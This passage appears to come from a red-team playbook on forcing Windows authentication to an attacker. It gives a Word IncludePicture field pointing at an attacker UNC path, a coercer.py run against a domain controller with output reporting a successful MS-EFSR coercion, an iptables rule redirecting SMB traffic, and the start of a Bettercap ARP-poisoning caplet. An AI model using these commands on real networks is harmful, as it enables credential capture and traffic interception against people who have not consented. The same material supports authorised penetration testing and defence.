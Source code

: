 * <details><summary>"IncludePicture" (Click to expand)</summary><p>
	* Create a Word document. Add the field `IncludePicture`, with the target URL to the attacker IP `\\<attacker_hostname_or_IP>\bad.jpg`
* PNG files (Farmer attack, needs research)

### From a Linux Machine
#### Response Over SMB

* No Credentials, Internal Network Access
	* Overview
		* Often having just VPN access will lead to issues. Direct network access is recommended, and tooling/TTPs are often restricted to your specific subnet.
	* RPC Abuse
		* <details><summary>coercer.py (Click to expand) -<br />[https://github.com/p0dalirius/Coercer](https://github.com/p0dalirius/Coercer)</summary><p>
			* Example

					coercer -t $TARGET -l $LOCAL_IP
				* Example Output

						root@jack-Virtual-Machine:~/ldapsearch-ad# coercer -t $DOMAIN_CONTROLLER -l $LOCAL_IP

						       ______
						      / ____/___  ___  _____________  _____
						     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
						    / /___/ /_/ /  __/ /  / /__/  __/ /      v1.6
						    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

						[dc01.microsoftdelivery.com] Analyzing available protocols on the remote machine and perform RPC calls to coerce authentication to 10.0.0.100 ...
						   [>] Pipe '\PIPE\lsarpc' is accessible!
						      [>] On 'dc01.microsoftdelivery.com' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcOpenFileRaw' (opnum 0) ... ERROR_BAD_NETPATH (Attack has worked!)
						      [>] On 'dc01.microsoftdelivery.com' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 4) ... rpc_s_access_denied
						      [>] On 'dc01.microsoftdelivery.com' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcDecryptFileSrv' (opnum 5) ... rpc_s_access_denied
						      [>] On 'dc01.microsoftdelivery.com' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryUsersOnFile' (opnum 6) ... rpc_s_access_denied
						      [>] On 'dc01.microsoftdelivery.com' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcQueryRecoveryAgents' (opnum 7) ... rpc_s_access_denied
						      [>] On 'dc01.microsoftdelivery.com' through '\PIPE\lsarpc' targeting 'MS-EFSR::EfsRpcEncryptFileSrv' (opnum 12) ... rpc_s_access_denied

						[+] All done!
	* <details><summary>ARP Cache Poisoning ([`Adversary-in-the-Middle - ARP Cache Poisoning` TTP](TTP/T1557_Adversary-in-the-Middle/002_ARP_Cache_Poisoning/T1557.002.md), [`Adversary-in-the-Middle - ARP Cache Poisoning` TTP](TTP/T1557_Adversary-in-the-Middle/002_ARP_Cache_Poisoning/T1557.002.md)) (Click to expand)</summary><p>
		1. Reconfigure routing table

				iptables -t nat -A PREROUTING -p tcp --dst 10.55.0.100 --dport 445 -j DNAT --to-destination 10.55.0.30:445
		1. Design cap file according to attack specifics.
			* Bettercap -<br />[https://github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
				1. Create a `.cap` file for ARP poisioning tool
					* ARP File Option 1
						* ```
						net.probe on```<br>
						```sleep 5```<br>
						```net.probe off```<br>
						<br>
						```net.recon off```<br>
						```set http.proxy.script responder.js```<br>
						<br>
						```http.proxy on```<br>